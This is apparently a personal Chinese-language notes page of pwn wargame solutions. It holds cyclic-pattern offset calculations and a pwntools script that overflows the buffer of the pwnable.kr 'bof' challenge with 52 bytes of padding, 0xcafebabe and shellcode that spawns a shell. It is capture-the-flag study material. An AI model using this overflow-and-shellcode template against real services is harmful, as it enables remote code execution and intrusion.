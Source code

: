 ### Record some expolit of  payload.
因常常忘記...於是紀錄一下各種解題方法。

試bof字串：

```
>>> cyclic(52)

'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaa'

>>> hex(0x21DD09EC - 0x10101010)

'0x11ccf9dc'

echo $((0x48-0x14))

52
```

#### pwntools起手式

```
from pwn import *

# 0xcafebabe

r = remote('pwnable.kr', '9000')

shell = asm(shellcraft.sh())

buf = p32(0xcafebabe)

payload = "A"*52

payload += buf

payload += shell

r.sendline(payload)

r.interactive()
```

